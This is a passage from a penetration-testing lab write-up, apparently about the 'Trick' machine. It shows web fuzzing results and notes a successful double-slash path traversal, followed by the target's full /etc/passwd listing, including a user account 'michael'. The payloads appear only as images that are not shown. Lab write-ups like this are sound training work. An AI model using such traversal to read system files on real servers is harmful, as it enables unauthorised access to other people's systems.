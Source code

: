 ```
about.html              [Status: 200, Size: 13272, Words: 4709, Lines: 243, Duration: 36ms]
services.html           [Status: 200, Size: 10757, Words: 3505, Lines: 193, Duration: 35ms]
```

### Path Traversal

Tried a basic path traversal:

![Trick%2041aab3b0eaf94cfcb78db8d45d297196](../../zzz_res/attachments/Trick%2041aab3b0eaf94cfcb78db8d45d297196%208.png)

Tried a double slash path traversal:

![Trick%2041aab3b0eaf94cfcb78db8d45d297196](../../zzz_res/attachments/Trick%2041aab3b0eaf94cfcb78db8d45d297196%209.png)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:112:121::/var/lib/saned:/usr/sbin/nologin
colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:118:65534::/run/sshd:/usr/sbin/nologin
postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin
bind:x:120:128::/var/cache/bind:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash
```
